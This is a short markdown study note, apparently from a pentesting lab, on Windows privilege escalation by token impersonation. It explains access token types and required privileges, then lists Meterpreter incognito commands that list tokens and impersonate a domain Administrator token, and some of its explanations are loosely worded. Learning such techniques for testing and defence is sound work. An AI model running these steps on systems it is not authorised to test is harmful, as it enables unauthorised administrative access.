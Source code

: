 # Privilege Escalation via Token Impersonation

- Windows access tokens are core element of authentication process which is created and managed by Local Security authority subsystem (LSASS)
- When we login to the system `winlogon.exe` generates an access token and attaches it with each `userinit.exe` process which is responsible for creating the child process after we login.

There are two types of tokens:
1. **DELEGATE Tokens :** are created when users interactively login into a system using their credentials, physically or remotely via RDP.
2. **IMPERSONATE Tokens** : created when users non-interactively login into a system, like accessing a shared drive on the network.

##### PRIVILGES TO HAVE FOR A SUCCESSEFUL ATTACK:
1. `SeAssignPrimaryToken` : this allows to impersonate tokens
2. `SeCreateToken` : allows user to create a new token with Admin privileges.
3. `SeImpersonatePrivilege` : allows a normal user to create a process with security controls of an admin users.

#### PRIVILEGE ESCALATION:

1. Gain an initial Meterpreter shell
2. Load the incognito module
```
load incognito
```
3. Now list all available tokens on the target 
```
list_tokens -u
```
4. Now impersonate the Administrator token
```
impersonate_token ATTACKDEFENSE\\Administrator
```
